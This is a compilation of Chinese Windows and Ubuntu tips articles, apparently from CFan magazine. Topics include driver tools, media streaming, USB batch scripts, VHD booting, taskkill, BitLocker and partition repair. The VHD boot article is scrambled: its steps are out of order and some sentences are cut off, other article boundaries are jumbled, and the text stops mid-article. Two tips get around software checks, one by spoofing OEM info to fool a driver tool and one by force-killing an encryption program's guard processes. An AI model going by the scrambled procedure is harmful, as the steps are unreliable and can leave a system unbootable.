BlueScreenView扫描的是位于C:\WINDOWS\Minidump目录下的小存储器转储文件（Minidump文件），计算机每次意外停止时Windows都会新建一个文件，这些文件的历史记录按照日期命名，记录着可帮助确定计算机为什么意外停止的最小的有用信息集。

(浙江/邢宸斐)## 移花接木：“贴牌”巧搞雨林木风驱动工具

雨林木风的驱动程序选择工具，虽然体积不大，但是可以自动识别大部分硬件并为其安装较新版的驱动程序，真可谓：“很小巧，很强大！”但是该驱动工具是基于修改版系统的，当笔者试图在Windows XP Professional SP3:MSDN 官方简体中文版上运行时，却遭遇了“闭门羹”。

### 场景重现：

安装完MSDN版系统后，需要安装驱动，于是笔者找出雨林木风的安装光盘，打开X:\Driver文件夹（X为光驱所在盘符），运行Driver.exe，结果弹出了“这个工具和目前的操作系统之间存在不匹配的问题，无法继续”的对话框。

### 追根溯源：

本着“不畏艰险，奋勇向前”的CFan精神，笔者开始思考问题产生的原因，真的是这个工具和MSDN版系统不匹配么？打开光盘的说明文件Readme.txt，概述开门见山地告诉我们“本系统基于 Windows XP Professional SP3 MSDN 官方简体中文版制作”，这说明了不匹配无从谈起。那么最有可能是修改版系统上有特定的“标牌”，只要能伪造这个“牌子”贴上，此款软就能为我们所用了。那么这个标记是什么呢，数字签名？创建特殊文件？OEM信息？笔者又再次翻看说明文件，其中提到的“系统确保达到原版XP100%的功能及兼容性”这一句似乎暗示我们更改数字签名或增加文件是不可能的，那么笔者猜测，突破口就在最显而易见而且最容易被修改的OEM信息寻找。笔者试了一下，发现只要在OEM信息中添加“雨林木风”这四个字就能骗过驱动程序选择工具，让它为“敌人”正常工作。

### 移花接木大法：

### 方式一：手工修改。

本法适合基础好，有耐心的朋友。用记事本打开C:\WINDOWS\system32文件夹下的oeminfo.ini文件，在[Support Information]下另起一行，键入“雨林木风”，保存退出。

### 方式二：软件修改。

可以借助第三方软件达到目的。很多软件都具有此功能，笔者就以深受广大用户喜爱的优化大师为例介绍。Windows优化大师，从界面左侧依次选择“系统优化→系统个性设置→其他设置→OEM信息设置”，在“这台电脑的技术支持信息”输入框中键入“雨林木风”，确定即可。如此的招式过后，你就可以尽情享用一键安装驱动的惬意了。

## 天涯若比邻 Windows 7远程看片儿

前段时间，CFan小编们集体出差下乡，出差在外，长路漫漫，难免寂寞，影片往往是最佳的消遣方式。有的小编走得匆忙，忘记将影片拷到笔记本中了。没关系，只要本本和家中电脑都安装了Windows 7操作系统，经简单设置，就可以随时随地互动点播，Remote Media Experience（远程影音体验），带给你“只要有Win 7，天涯若比邻”的快捷！

第一步：在装有Windows 7的流媒体服务器上，打开“控制面板→用户账户和家庭安全→用户账户→链接联机ID”，再点击“添加联机ID提供程序”，根据提示安装Windows Live ID Sign-in Assistant 6.5，然后输入你的Windows Live Messenger账户及密码，登录一次。

第二步：同样是在Windows 7流媒体服务器上，打开Windows Media Player把电脑中的影音文件添加到媒体库中来，并勾选Windows Media Player菜单中的“媒体流→允许网络访问家庭媒体”，再点击“更多流选项”打开“为计算机和设备选择媒体流选项”窗口，在“显示设备的位置”下拉菜单选择“所有网络”，然后在“该PC上和远程连接上的媒体程序”选择“已允许”。

第三步：回到点播流媒体的客户机上，按照第一步输入同样的Windows Live Messenger账户及密码关联联机ID，然后点击Windows Media Player窗口界面中“其他媒体库”，找到刚才设置的服务器，就可以点播该机子中的音乐、视频等流媒体文件了。

小提示：

在主、客户机都安装Codecs for WMP（下载地址：http://eynkcqa.qupan.com/130698.html），可以让Windows Media Player也能播放RM、RMVB文件。

(福建/周玲生)

## 纯净娱乐 Ubuntu中文程序无乱码

刚装好Ubuntu 9.04，想轻松一下，在线听几首歌吧，“亦歌-自由自在听音乐”(http://www.1g1g.com)不错，打开后，咦，怎么播放列表全是方块？别着急，随我来与乱码练太极，让小方块儿乖乖变文字。

小提示：你知道吗？

Ubuntu对中文有优良的兼容性，兼容UTF-8和GB18030中文编码，当然也包括GB2312和BIG5编码。但是部分程序有中文乱码的情况，只需简单设置一下就可以了。

### 勿让方块毁了漂亮的 Flash

Firefox火狐浏览器中Flash里面的动态中文字体显示为方块，解决办法为，打开“终端”，输入以下命令：

```
cd /etc/fonts/conf.d
sudo cp 49-sansserif.conf 49-sansserif.conf.bak
sudo rm 49-sansserif.conf
```

重启Firefox，小方块变成漂亮的中文了！

### 周杰伦不是“框框框”

打开Audacious播放器听歌（Linux下常用的很像Winamp的MP3播放器），发现我最爱的周杰伦在播放列表里显示都是框框，原来，该播放器打开在Windows里下载保存的MP3，都会显示为乱码。右键点击播放器选择“首选项→播放列表”，在“歌曲信息→使用自动编码检测器检测这些编码”选择“简体中文”，“备用字符编码”栏中填入GB18030，关闭对话框。然后清空播放列表，再重新添加歌曲到播放列表，中文回来了！

### 抵制火星文

Gedit是Ubuntu默认的纯文本编辑器，所有配置文件的修改都离不开它。但是，Ubuntu 9.04的Gedit打开Windows下保存的文本文件时，却全部显示为看不懂的“火星文”。打开“终端”，输入gconf-editor调出“配置编辑器”，依次展开apps(应用程序)→gedit-2→preferences(参数)→encodings(编码)，在右边的auto_detected(自动匹配)行双击会弹出一个对话框，点击“添加”输入GB18030，并把GB18030项“向上”移动到列表顶端，确定，重新打开Gedit，随便浏览吧，都是正常文字了吧！

(洪东华)

## 我换我换我换换 DIY冰3桌面秀

小Y是个动画迷，三天两头换壁纸，忙得不亦乐乎。时间久了，他根本就不满足换桌面壁纸了，连Windows系统自带的默认图标都看烦了，这不，《冰河世纪3》一上映，他心里又痒痒了，磨刀霍霍准备给自己的系统来个整容手术！嘘，小声点，快跟着我，咱们凑过去看看热闹。

### 必备：小松鼠的松果

在冰3里面，小松鼠除了获得爱情外，还继续追逐着那颗永远得不到的小松果，本文的松果在哪里？http://work.newhua.com/cfan/200917/bhsj.rar下载得到资源包，解压后就会得到与冰3相关的图标、主题、工具等！

Manny和树懒Sid，想把他们都摆到桌面上当图标么？Vista/7下，在桌面空白处右击选“个性化”，如果是XP系统，在桌面空白处右击选“属性→桌面→自定义桌面”，选择“我的电脑”，点“更改图标”，在浏览栏里找到资源包冰河世纪的图标，确定即可替换。桌面快捷方式图标更改方法大家都会，就不啰嗦了。

### 怎么摆放？大挪移

你桌面上的图标都怎么摆放，自动排列，对齐到网格？看了这么久，该来点儿新花样了！资源包中的IconAlign，来给你变个魔术，默认状态下，桌面上的图标会被排列为圆形。右击软件任意处选择“使用主题”可调整方向、图形形状、符号等，也可以手动调整为想要的形状，然后选择“保存位置”，以后选择“使用位置”即可。

### IconAlign

| 项目 | 内容 |
|------|------|
| 软件大小 | 500KB |
| 软件性质 | 国产免费 |
| 应用平台 | Windows 98/2000/XP/Vista/7 |
| 下载地址 | http://work.newhua.com/cfan/200917/bhsj.rar |

小提示：

★桌面的快捷方式上总有个小箭头，影响美观。Vista下，资源包中Vista Shortcut Manager可以帮忙；如果你用的是XP，就用“快捷方式箭头助手”（下载地址：http://www.piaodown.com/soft/27033.htm）。★在高分辨率下，图标都变成了小蚂蚁。XP系统下，桌面上点右键选“属性→外观→效果”，勾选“使用大图标”；Vista下，在桌面上按住Ctrl键滚动鼠标滚轮，桌面图标会逐级放大。

(文/大熊)

## 金秋收获 PC上品尝Android鲜果

关注Google手机新闻的朋友都知道。Google Android是在其手机上使用的操作系统。不过，现在Google手机并未上市，当然了即使上市，大多数人也不会为尝鲜这个系统而去买新手机。现在Google官方推出了支持X86平台的Live-Android项目。现在通过PC也可以尝鲜Google Android系统。

### 摘下鲜果

- 第一步：到http://code.google.com/p/live-android/downloads/list下载该系统的ISO文件。如果下载的是hjsplite分割的两个文件，还要到http://www.onlinedown.net/soft/13860.htm下载hjsplit。
- 第二步：如果仅仅是尝鲜一下这个系统，可以使用虚拟机VMware来尝试。启动VMware后新建个虚拟机，然后将上述合并的ISO文件作为引导设备。启动系统后可以看到类似ubuntu启动界面，加载过程可以看到该系统支持USB、蓝牙、WIFI等设备，成功加载内核后自动进入操作系统界面。首先显示的桌面和一个电量低的提示窗口，只有将鼠标指针移动到提示框内点击OK才可以进入桌面操作。

> 小提示：严格地说，Google Android是一个手机平台，它包括了一个手机操作系统、用户界面及应用程序集合。本文介绍的是其中的操作系统。

### 美味哪里来？

这个系统使用的是Linux内核。具体操作和ubuntu有些类似。系统桌面内置了手机常用的拨号、联系人、短消息和浏览器等组件。桌面最上方则是Google典型的搜索框。

Google Android的“控制面板”通过点击左侧边栏展开。可以看到这个系统内置了摄像、照相、Email、音乐播放、游戏、闹钟等常见的手机应用。只要双击其中的图标即可进入相应的组件。如果要退出组件只要按下ESC即可返回桌面。

## 闪盘停用、启用，一键搞定

现在闪盘的价格早已成了白菜价，相信大家都已经拥有一个或几个闪盘了吧。那么，当大家在一台电脑中使用完闪盘而要将其停用时，往往是先右击系统托盘中的USB图标，接着左键单击“安全删除硬件”，再点“停止”，最后确定，这样才算安全地停用了USB设备。想想看吧！停用闪盘等移动存储设备经常重复这样的繁琐操作，真的是很麻烦。那么，能不能让繁琐的事情变简单，实现一键停用闪盘呢？答案当然是肯定的。下面，笔者就给大家介绍一下如何来实现。

- 第一步：先从http://support.microsoft.com/kb/311272/zh-cn下载工具DevCon。然后用WinRAR打开下载的压缩包，将其中包含的i386文件夹解压到硬盘的任意位置（如C盘根目录）。接着，将闪盘插入电脑主机的USB接口，识别后并双击“控制面板→设备管理器”，并定位到该窗口的“通用串行总线控制器→USB大容量存储设备”分支下。
再右击“设备管理器”窗口的“USB大容量存储设备”分支，选择“属性”，打开“USB大容量存储设备属性”对话框的“详细信息”选项卡。最后单击该选项卡“属性”下边的下拉箭头，选择“硬件ID”，将下边新出现的闪盘硬件ID信息复制并粘贴到记事本中备用即可。
- 第二步：打开记事本，然后输入以下内容：

```
@echo off
cd C:\i386
devcon disable @"USB\VID_0204&PID_6025\*"
```

上述内容输入完毕后，将这个记事本文件另存为BAT格式的批处理文件，保存到C:\i386目录下，文件名为“DisableUSB.bat”，再新建一个名为“DisableUSB.reg”的注册表文件，其内容如下：

```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\Directory\Background\shell\一键停用闪盘\command]
@="C:\i386\DisableUSB.bat"
```

最后将这个注册表文件双击导入到注册表中即可。

经过以上步骤的操作，在桌面任意空白的位置右击时，在弹出的右键菜单中就会出现一个“一键停用闪盘”的菜单选项。选择这个菜单选项就可以实现一键停用闪盘的目的了。当然，如果万一停用了闪盘而又需要再次使用时，选择“一键启用闪盘”菜单选项，此时无须重新插拔闪盘就可以正常使用。

> 小提示：
★在窗口中，字符串“USB\VID_0204&PID_6025”表示的是闪盘的硬件ID信息。在实际的操作过程中，大家闪盘硬件的ID信息如有不同，请将自己闪盘硬件的ID信息，替换字符串“USB\VID_0204&PID_6025”就可以了。
★为了方便大家启用闪盘，建议大家用记事本打开DisableUSB.bat，将其中的disable替换为enable，接着将这个BAT文件另存为EnableUSB.bat，保存到C:\i386目录下；再用记事本打开DisableUSB.reg，将“停用”替换为“启用”，将DisableUSB.bat替换为EnableUSB.bat；最后把这个修改过的注册表文件导入到注册表以增加一个“一键启用闪盘”的菜单选项。

## 不繁琐，调节声音用滚轮

对于我这样的音乐爱好者来说，声音输出的控制是很重要的。而调声音，一般是通过右击系统托盘上的音量图标，选择音量控制来实现的，反复去做的话就会让人很烦。有没有快捷的方法呢？

借助VoluMouse（下载地址：http://www.newhua.com/soft/35321.htm）这款绿色小软件，就可以解决。通过Ctrl与Shift等快捷键与鼠标滚轮配合，可实现对音量的多种调节。软件启动后最上方是声卡驱动选择，中间设置快捷键。通过下拉菜单就可以选择快捷键，除了一般的快捷键设置之外，还包括“当鼠标移到系统托盘”、“iTunes出现在屏幕中”等特殊的快捷设置。然后是快捷键所对应的音量控制部件，如音量、波形、麦克风音量等。之后是声道选择，最后是调整的幅度（默认值为1000）。启用后会以图标形式显示在系统托盘中。

## 混不好就不回来了！Ubuntu征服软件的4个蜕变

各位看官，相比十有八九是Windows的用户。无论是XP也好，7也罢，的确，丰富的软件让大家的选择无可厚非。那么，Linux们就无出头之日了吗？No，Ubuntu是最不服气的一位。靠着强大的命令，同样可以“自制”很多软件，完成5个蜕变。

### 蜕变1：虚拟光驱

在Windows下需要用专门的虚拟光驱软件来打开ISO文件，Ubuntu下，只需一条命令就行！在终端中输入以下命令：

```
sudo mount /home/user/**/*.iso /media/cdrom
```

（其中“/home/user/**/*.iso”是你的ISO文件路径，/media/cdrom是挂载ISO文件的路径）
再按回车键执行即可。

### 蜕变2：音速启动

在Windows中有一款管理软件启动的软件，其实Ubuntu中也有该“软件”。在终端中输入gconf-editor运行“启动配置编辑器”，它有点类似于Windows中的注册表。在左侧窗格中依次打开apps→metacity→keybinding_commands，在该键下面可以设置12个快捷命令。双击command_1，在“值”一栏中输入想要运行的程序名，比如pidgin（一款即时通讯软件）。找到global_keybindings，双击右侧窗格中的run_command_1（与刚才编辑的command_1键是相互对应的），在“值”栏中输入想定义的快捷键，如F12，确定后，只需按下F12，即可运行pidgin软件。

### 蜕变3：光驱软开

每次使用光驱都去按电脑上的按钮实在是太麻烦，自制一个开关吧！在桌面上右击鼠标，选择“创建启动器”。接着在弹出的对话框中的“命令”一栏中输入“eject -r cdrom”，在“名称”中输入启动器的名称。现在，只需要双击该启动器即可打开光驱。小提示：如果要关闭光驱，则把命令改为“eject -t -r cdrom”。注意：如果是笔记本，则无法使用命令关闭。如果有两块光驱，则需要指定光驱的序号，如“eject -r cdrom0”。

```
eject -r cdrom
```

### 蜕变4：快关显示器

本本用户的电池续航时间很金贵，在不用电脑的时候，还是把显示器关掉吧！与上例一样创建一个启动器，输入命令：xset dpms force off，回车。开会的时候，需要抬头看投影，只需双击该启动器，即可快速关闭显示器。

```
xset dpms force off
```

### Just Do It：让键盘代替鼠标

如果鼠标坏了，一时找不到代替的，怎么办呢？自己动手做个键盘式鼠标！按下ctrl+shift+numLock，就可以用数字键盘来代替鼠标了。至于哪个数字向上移动光标，哪个向下，自己尝试去吧。

## 没有不可能？普通DVD光盘当闪盘用！

唉，这年头经济不景气，咱空摆着个DVD刻录机，可也没多少银子去买那较贵的DVD±RW（可擦写的DVD刻录盘），只能坚守着用DVD±R。偶然的一次操作，让我发现了一个惊天秘密：在Windows 7系统下，普通的DVD光盘也能当USB闪盘来使用，从此我这张普通光盘既当爹来又当妈……

第一步：插入一张普通的DVD±R空光盘。若开启自动播放功能的会弹出“自动播放”对话框，不必理会它将其直接关闭。双击光驱所在盘符，激发我灵感的对话框出现了，这里有“类似于USB闪存驱动器”及“带有CD/DVD播放器”两项供选择。

第二步：我当然不傻啦，仔细参详后选择了“类似于USB闪存驱动器”并点击“下一步”。此时出现格式化对话框，直接格式化。稍等片刻格式化完成后，即可向光盘里面任意写入数据，直接用复制和粘贴即可。
当你不再需要光盘上这些文件时，你还可以进行多次的编辑或者直接删除，当然格式化也可以，完全可以将DVD光盘当成USB闪存盘来使用。

第三步：当编辑文件完毕后，右击光驱图标，选择“弹出”命令，系统会在右下角提示：“正在关闭此对话，请稍候，关闭之后此光盘可以在其他计算机上使用了。”

小提示：
其实这项功能只是Win 7一种特殊功能，它更适合在自己的机器上像闪盘一样备份数据，而且必须在装有DVD刻录机的Windows 7系统下才可以向光盘写入和擦除数据，但只有DVD光驱且装有不低于Windows XP SP3系统的电脑才能读取光盘中的数据。
对此感兴趣的朋友可用CD光盘试验一下，说不定你也会得到意想不到的结果呢！
（广西/云叶）

## 抛弃安装，“假”文件成就真系统

Windows 7增加了从VHD文件启动系统，可以直接启动VHD文件内的操作系统。利用它，安装多操作系统将变得更简单。其他系统是否支持从VHD文件启动系统呢？答案当然是肯定的。下面，就让Vista（SP1及以上版本）具有从VHD文件启动系统的功能，从而实现“安装”Windows 7的目的。

统的功能了。接下来创建一个包含Windows 7操作系统的VHD镜像文件。将Windows 7安装光盘中的WIM格式的系统映像直接转换成VHD格式的文件。实现WIM转VHD，需要一个WSF格式的脚本文件（下载地址：http://tinyurl.com/lkb8b6）；还需要imagex6000（下载地址：http://www.pcxunlei.cn/down.php?id=277583）。
将下载的Windows 7 ISO格式镜像文件用VDM虚拟光驱加载（假设光驱盘符为I），然后将WIM2VHD.WSF脚本文件复制到C:\VHD目录下，将imagex6000所有文件解压到C:\VHD目录下，再以管理员身份运行命令提示符，并依次执行以下两条命令：

```
cd C:\VHD
cscript wim2vhd.wsf /wim:I:\sources\install.wim /sku:ultimate /vhd:f:\Win7.vhd
```

格式的系统镜像添加一个启动菜单选项。
先登录Vista并以管理员身份运行命令提示符，然后分别执行以下五条命令（每输入一条命令均按下回车键）：

```
F:
bcdedit /copy {current} /d "Win7 VHD版"
```

（此处得出字符串{A}，下面三条命令都会使用）

```
bcdedit /set {A} device vhd=[F:]Win7.vhd
bcdedit /set {A} osdevice vhd=[F:]Win7.vhd
bcdedit /set {A} detecthal on
```

启动菜单添加完毕后，重启系统就已看到新添加的菜单选项了，选中这个菜单选项并按下回车键，就可以启动VHD镜像中的Windows 7系统了。当然，如果时间长了VHD镜像中的Windows 7出现了各种故障，只需将备份的Win7.vhd替换已经损坏的同名文件即可。

### 偷梁换柱，增加 VHD 启动功能

想让Vista支持从VHD启动系统，其引导文件必须支持对VHD格式的文件进行读写才可以。为了实现这一目的，先复制Windows 7的引导文件，对Vista引导文件进行逐一替换。Windows 7的引导文件有两个：bootmgr和bcdedit.exe，前者在C盘的根目录下，后者则位于C:\Windows\System32目录下。此外，为了让替换了引导文件的Vista多启动菜单的界面还是简体中文，还需要复制Windows 7系统盘根目录下的Boot文件夹至Vista系统分区。

### 合二为一，转换 WIM 系统镜像

完成替换后，Vista就具有启动VHD镜像中系统的功能了。

### 锦上添花，添加启动菜单

现在Vista已经具备从VHD启动的功能，VHD格式的Windows 7系统镜像文件也已就绪，万事俱备，只欠东风！接下来的工作，就是登录Vista系统并为VHD格式的系统镜像添加一个启动菜单选项。

小提示：
如果想让系统盘的空间变得小一点，可先用记事本打开WIM2VHD.WSF，比如将40960MB替换为20480MB，保存修改，然后再执行WIM转VHD的操作就可以了。
（福建/郑英）

## 一打一准，我的进程叫顺溜

对于进程管理，相信不少朋友都用过系统自带的Tasklist和Taskkill命令。不过，你知道这些命令自带很多实用参数？用好这些参数可以对进程进行更精准的管理。

### 实例 1：一招找出无法删除的 DLL 木马

DLL木马是无进程、无启动项、无法删除的“三无产品”，如果不中幸招会带来很大麻烦。现在借助Taskkill，一招即可把DLL木马揪出来。比如，qqservice.dll是一顽固木马，伪装成QQ服务，很多杀软虽然可以扫描发现，但是却无法将其删除。到底是哪个进程在使用qqservice.dll？
第一步：单击“开始→运行”输入CMD启动命令提示符，输入“tasklist /m qqservice.dll”，回车后可看到这个DLL文件被桌面进程Explorer.exe调用，由于没有终止桌面进程，无法删除。
第二步：通过系统搜索功能可以找到该文件位于C:\Documents and Settings\All Users\Application Data下。打开任务管理器终止explorer.exe进程，然后再单击“文件→新建任务→浏览”，找到上述文件删除，删除完毕重启explorer.exe进程即可。对于所有无法删除DLL文件如很多IE流氓插件，通过上述命令均可快速找到调用进程，从而通过结束进程删除之。

小提示：
Tasklist命令还有许多参数，比如/svc可以列出进程中包含的服务，这样通过该参数就可以查看进程对应的服务。

### 实例 2：一网打尽所有可疑进程

为了实现自我保护，一些程序通常通过多个相互监视进程来保护自身不被用户强行退出。比如PC Security加密软件，它就通过三个进程自我保护，这样即使在任务管理器终止任何一个进程，其他监护进程也会立刻再生被终止的进程。如果忘记PC Security加密的密码，要结束程序的运行，怎么将所有监护进程一网打尽？
第一步：打开任务管理器找出可疑进程，根据进程名称发现sdaemon.exe比较可疑。通过系统搜索功能找到sdaemon.exe，查看其属性可知这是PC Security的一个组件。
第二步：启动命令提示符输入“taskkill /im sdaemon.exe /t”（/t表示结束进程树），回车后可以看到“已终止 PID 2144 子（属于 PID 656）的进程”的提示，表示这个进程是由PID 656父进程产生的。通过任务管理器查看进程PID，可以知道这个是winwd.exe进程，不过终止sdaemon.exe进程会立刻再生。
第三步：再次输入“taskkill /im winwd.exe /t”结束winwd.exe进程，此时可以看到winwd.exe进程是由PID656产生的（winsersec.exe），winwd.exe同时生成sdaemon.exe子进程。这样通过/t参数我们就找到这三个监护进程。显然要结束程序运行我们就必须将这三个进程一起干掉。在命令提示符窗口输入“taskkill /im sdaemon.exe /im winwd.exe /im winsersec.exe /f”（/f表示强制终止进程），回车后就彻底结束PC Security的运行了。

### Just Do It：自己动手批量关闭多个进程

即使不是相互关联的进程，你也可以使用“taskkill /im 进程1 /im 进程2”终止多个进程。大家试一试，在中招多个病毒时用这个命令把几个病毒一起干掉！
（文/漂流在外）

在众多窗口打开的时候，想快速切换到桌面打开某程序，我们习惯使用Win+D或单击快速启动栏的“显示桌面”按钮。不过，这样切换到桌面后，所有程序窗口都被最小化了，回头还得逐个重新还原。有没有什么方法可以替代系统自带的切换桌面功能，从桌面返回后不用一一重新打开被最小化了的窗口呢？答案是肯定的！
首先，从http://www.virtualdisk.net/desktopmost.html下载这款名为DeskTopmost的小工具，运行后要想切换桌面时只要按下Ctrl+Alt+D组合键即可让“桌面置顶”，此时就可以打开你需要的程序或文件，而要切换回原先的状态，只要用鼠标右击一次桌面即可，而且之前的工作状态丝毫不受影响。

## 快速回到桌面，我有新招

小提示：
还可以设置透明度，右击托盘区中的程序图标并选择“Config”（设置），在打开的设置窗口中直接拖动透明设置小滑块向右侧，这样设置后，在切换桌面时就可以显示出透明效果了。
（文/daigua）# 太简单了！上网本必备启动盘

现在很多电脑，特别是最近流行的上网本没有光驱，维护系统是一大难题，因此买一个闪盘，把它做成启动盘，以备不时之需，是非常必要的。现在网上流行的制作闪盘启动盘的方法和工具很多，但成功的却很少。很多都是前几年开发出来的东西，随着主板的不断升级而被淘汰。笔者试验了两天，终于找到了一种可行方法。

下载免费的“晨枫闪盘维护工具V2.0”，现在大容量的闪盘都很便宜，建议大家下载512MB版本，下载地址为http://www.qupan.com/down/xingh_2363959.html。

第一步：将下载后的压缩包解压到指定文件夹，如Z盘的根目录下。在Z:\Boot\Ins下，双击UltraISO.exe启动UltraISO工具。在“本地目录”中选择Z盘即解压后的所有文件，然后点击“添加”按钮。

第二步：插入闪盘后，在UltraISO中选择“启动→写入硬盘映像”，在“硬盘驱动器”中应该能看到你的闪盘。UltraISO提供了四种写入方法，其中“USB-ZIP+”比“USB-ZIP”的兼容性还好，且绝大多数提供USB启动的主板都提供“USB-ZIP”模式。因此在“写入方式”中要优先选择“USB-ZIP+”。点击“写入”，当显示“刻录成功”后，你的启动盘就制作完成了。重启电脑，在BIOS中改写第一启动设备为“USB-ZIP”，即可使用闪盘启动电脑。

闪盘里你可存储其他文件，比如GHOST的镜像文件等，一旦电脑不能启动，你就可以使用它启动电脑进行数据转移和系统恢复，使用GHOST还原系统。
(文/杨兴平)

# 给U盘加把锁，我有BitLocker

移动存储技术给我们的生活带来了巨变，大家总是忘不了在包里揣上个容量大、速度快、小巧的U盘，里面存上各种文件。其中当然少不了些学术成果或者公司资料。可这小巧的U盘难免会有时下落不明，文件丢了是小事儿，还有备份可以还原。可是如果这个U盘是被某些不怀好意的人悄悄“借走”了，那么后果也就可想而知……市场上也能看到一些有加密功能的U盘，但从性价比上来看，着实是不划算。

Windows7的登场给囊中羞涩的我们带来了希望，快请系统自带的BitLocker给普通的U盘加把免费的锁。

> 小知识：BitLocker的前世今生
BitLocker诞生于Vista时代，是微软为解决用户数据失窃、泄露而提出的全新解决方案，经过不断的总结摸索，它在Windows 7中得到了完善，改进了向导界面，并且可以为U盘进行加密。只有Enterprise版和Ultimate版的操作系统带有BitLocker功能。

在“控制面板→BitLocker驱动器加密”中，找到U盘，选择“启用BitLocker”，按照向导提示，给自己选择一个密码，之后进入较为漫长的加密过程。当加密之后的U盘再次插入系统时，会弹出输入密码的提示框。输入正确的密码后，U盘的图标会发生变化。

即使更换电脑也同样生效。因为BitLocker已经将解密程序内嵌入U盘了。更完美的是加密后的U盘能够完全被XP系统兼容。加密向导的过程中，还可以对密钥以文件或者记忆卡形式进行备份，以防忘记密码。
BitLocker的安全性很高，一般破解方式对其无效。谢谢微软的良苦用心，快用免费的它给自己的U盘加把锁吧！

BitLocker与常见加密方式对比

| 加密方式 | 加密性质 | 优缺点 |
|----------|----------|--------|
| BitLocker | 软件加密 | 系统内嵌，稳定、兼容性好，性价比无敌 |
| 加密U盘 | 硬件加密 | 成本较高，兼容性好，安全性好 |
| U盘加密软件 | 软件加密 | 适用性、兼容性差，需要注册购买使用授权 |

网络大补贴：常见U盘加密软件
- 优易U盘加密软件
  http://www.onlinedown.net/SOFT/41347.htm
- PrivateDisk U盘版 2.0
  http://www.onlinedown.net/SOFT/77515.htm
(文/刘家艺)

# 用nLite自制认识SATA的XP安装盘

尽管没有Vista绚丽的特效，朴素稳定的XP系统还是赢得了大多数用户的喜爱，但原版的XP安装盘由于缺少SATA驱动竟然不认识SATA接口的硬盘，安装流程卡在了半路上。为此苦恼的小菜鸟们，跟着我来学用nLite，把SATA介绍给XP认识。

将原版的XP镜像解压缩到一个文件夹下，运行nLite，选择刚刚释放出的安装文件的位置，然后下一步到“任务选择”界面，选“驱动程序”和“可引导ISO文件”→下一步→插入→多个驱动程序所在的文件夹，找到SATA驱动包解压缩出的路径，程序会自动扫描驱动并打包到安装文件内，之后就可以生成出认识SATA的安装盘了。
除了集成驱动之外，nLite还可以对系统进行优化调整，也能将最新的Service Pack整合到安装盘内，轻松打造属于自己的系统。
文中软件及驱动包下载地址：http://www.multiurl.com/i/Zr。
小提示：
Vista可以使用一款同类软件vLite配置安装盘。
(文/潇潇)

# 磁盘碎片整理之英雄擂台

你是否有着蜗牛般蠕动的磁盘碎片整理进度条发呆的悲惨经历，你是否因弹出的错误提示框中断了的磁盘整理而心烦？快来看看下面这篇文章，大侠们的盖世武功来帮忙！

挑战帖：
- 磁盘碎片严重无法整理
- 碎片整理缓慢无法忍受
- Windows下需完全卸下磁盘才可整理
- $MFT碎片无法整理

在Windows下进行磁盘碎片整理的时候，常常会因为各种各样的问题导致整理无法完成，随着日久天长的使用，顽固的碎片们盘踞在硬盘中恣意妄为，影响系统速度。但江湖总归是江湖，卧虎藏龙，高人辈出，快快请出我们大侠高手们，看看他们的盖世武功如何对付磁盘碎片。

# 【攻擂者甲】PM 大侠所向披靡

# 神探出手，巧破分区离奇失踪案

Vista系统中，分区离奇失踪，大量珍贵数据即将化为泡影，怎么不让我们抓狂？磁盘专家侦探事务所最近就成功侦破了一起这样的案例，彭侦探巧妙的破案方法一定会对您有所启发！

# 案发现场

接到MM的紧急求助电话，说她的VISTA系统中的一个分区神秘失踪了。在磁盘管理中查看这个分区，既不是未分配空间，又可以看到容量，但却看不到文件系统和盘符，对该分区的任何操作都无法进行，并弹出如下提示：“操作无法完成，因为磁盘管理器的视图不是最新状态……”。彭侦探便立刻携带DiskGenius前往案发现场实地勘察，用DiskGenius来查看一下各分区的参数，来进一步确定推测是否正确。检测结果一目了然，正常的第二分区的终止磁头数应小于或者等于109，但现在是254，这就说明了第二分区与第三分区之间存在着重叠，进而导致第三分区出现问题。

# 巧妙找回

找到问题所在，那么彭侦探就有自己的妙招来找回这个分区。本案例中，修正分区的起止点就可以解决问题。
不必大动干戈，Windows自带的磁盘管理便可以妙手回春。右击第二分区，选择“压缩卷”，压缩的目的是把第二分区的终止点收缩，压缩的大小取决于重叠扇区数，笔者此处选择压缩50MB。成功压缩后，再选择“扩展卷”，扩展时，磁盘管理器会自动读取下一个分区的起始点，确保扩展的最大范围不会与下一区重叠。重启电脑后，丢失的分区也回来了，里面的数据也都完好无损。这时再用DiskGenius来查看一下分区的参数，可以看到分区重叠的情形已经解决。

# 结案笔录

分区重叠的情况多是老牌分区软件PQ惹的祸，在Vista系统下它已经无法胜任新的工作了。Acronis Disk Director Suite (ADDS)是它最佳的接班人。在网上也有一类似案例，一网友在Win7下也遇到与本案中相同的问题，这位朋友用ADDS把问题分区从逻辑分区转换为主分区解决了问题。对此彭侦探进行了测试，结果表明，ADDS在转换过程中，也是自动修正了分区的参数，也证明了此方法的通用性。使用磁盘管理压缩再扩展，是一种巧妙修复分区参数的方式。
问题解决了，MM给侦探送来了鲜花，我也就笑纳了。最后提示各位朋友，在遇到分区不正常的情况时不要慌张，应首先用分区工具查看一下分区参数以确定问题所在，一般都是能够不丢失数据修正错误的。
如果实在无法修正，应先把数据抢救出来，然后再对分区进行处理。

(文/彭哲也)

# 情义之外的故事，宿舍电脑也要“花季护航”

我，外号“牛磨王”，因生在牛年、做事磨蹭，而得名。
一生最大疑问：灰太狼为什么吃不到喜羊羊？
一生最大厌恶：占用着我的电脑不撒手……
新的学期已经开始将近一个月了，开学时大家久散重逢时的欣喜已经淡淡退去，一些生活上的琐事开始骚扰每个人的生活了。有的为了实习工作而辛苦奔波，有的为了与女友的琐事而终日碎碎念，大三的生活，不过如此……实习的大哥怒吼：“你们别美，到了大四都得实习！还晚了呢！”我的烦恼和他们不同，由于人缘“好”，由于电脑配置较高，总是被借来借去，可恨的是总有去无回。关注IT新闻的兄弟都知道，很多学校电脑都要求安装“绿坝花季护航”（简称花季护航），不过对我来说，它的功能有限。经数日研究，我终成正果！借助系统本身的组件再加上几款常用的软件，照样就可以达到（甚至超过）“花季护航”的功能。不磨叽了，立刻开工！

# 牛磨王，三怪理

1. 通过自制绿坝花季保护系统，学到不少电脑知识。
2. 大部分功能借助系统本身组件实现，节省系统资源。
3. 遭遇破解，不会导致所有限制功能失效。

# 别来无恙，监管电脑游戏

现在大学校园里流行起了一股“DNF”风，来自腾讯的一款格斗游戏。闲来无事，奔走于宿舍之间，十个宿舍得有八个在DNF中。您玩您的可以啊，管不着，用我的电脑斗个不停那就不讲究了。
